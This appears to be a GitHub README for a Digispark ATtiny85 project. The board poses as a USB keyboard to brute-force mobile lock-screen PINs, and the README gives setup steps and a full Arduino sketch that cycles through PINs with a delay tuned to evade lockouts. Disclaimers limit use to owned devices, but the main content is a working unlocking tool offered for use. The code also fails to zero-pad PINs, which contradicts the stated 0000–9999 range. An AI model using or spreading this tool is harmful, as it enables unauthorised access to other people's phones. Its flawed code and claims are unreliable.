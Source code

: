 <div align="center">
  <h2>🔓 Digispark Unlock Project</h2>
  <img src="IC.jpg" alt="Digispark ATtiny85" width="300">
  <p><b>A project to demonstrate PIN brute-forcing using the Digispark ATtiny85 microcontroller.</b></p>
</div>

## 📌 Overview
The **Digispark Unlock Project** showcases how the **Digispark ATtiny85 microcontroller** can be used to automate PIN brute-forcing on a mobile device’s lock screen. This project is purely for **educational purposes** to understand the interaction between hardware and digital systems.

⚠️ **Disclaimer**: Use this project **only on devices you own** or have explicit permission to test. Unauthorized access to a device is illegal.

---

## 🚀 Features
✅ **Brute-Force PIN Combination**: Attempts PINs from `0000` to `9999` automatically.<br>
✅ **Configurable Delays**: Adjust delay timings to avoid security lockouts.<br>
✅ **Compact & Efficient**: Uses **low-power Digispark ATtiny85** microcontroller.<br>
✅ **Easy Programming**: Arduino-compatible with **DigiKeyboard Library**.<br>
✅ **USB-Based Execution**: No need for additional hardware.

---

## 🔧 Hardware Requirements
- **Microcontroller**: Digispark ATtiny85
- **Connections**:
  - **Micro USB Cable** – For programming and power supply
  - **Target Mobile Device** – For testing PIN brute-force automation

---

## 💻 Software Requirements
- **Arduino IDE** (for writing and uploading the script)
- **DigiKeyboard Library** (to simulate keyboard inputs)

---

## 📝 Installation & Setup

### Step 1: Install Required Software
1. Download and install **Arduino IDE** from [Arduino Official Site](https://www.arduino.cc/).
2. Add **Digistump Board Support** in Arduino IDE:
   - Go to **File > Preferences**.
   - Add this URL in *Additional Board Manager URLs*: `http://digistump.com/package_digistump_index.json`.
   - Open **Boards Manager**, search for **Digistump AVR Boards**, and install it.

### Step 2: Install DigiKeyboard Library
1. Open **Arduino IDE**.
2. Go to **Sketch > Include Library > Manage Libraries**.
3. Search for `DigiKeyboard` and install it.

### Step 3: Upload the Code
1. Connect your **Digispark ATtiny85** via **USB**.
2. Open Arduino IDE and paste the following code:

```cpp
#include "DigiKeyboard.h"

void setup() {}

void loop() {
  for (int pin = 0; pin <= 9999; pin++) {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.print(String(pin));
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(5000); // Adjust delay to avoid security lockout
  }
}
```

3. Click **Upload** (The Digispark must be **disconnected** before compilation and reconnected when prompted).

---

## ⚙️ How It Works
1. The **Digispark ATtiny85** acts as a USB keyboard.
2. It simulates keypresses, entering **PIN numbers sequentially** (`0000` to `9999`).
3. A **5-second delay** is added to prevent security lockouts.
4. The process continues until the correct PIN is found.

---

## ⚠️ Ethical Considerations
- 🚨 **Use this tool responsibly** on **your own devices**.
- 🔒 Unauthorized use is **illegal** in many countries.
- 🎓 Intended for **learning about cybersecurity** and **hardware automation**.

---


## 📝 License
This project is licensed under the **MIT License**. You are free to modify and distribute it **for educational purposes only**.

---

<div align="center">
  <h3>📩 Contribute & Support</h3>
  <p>If you have suggestions, feel free to submit a pull request! 🤝</p>
</div>
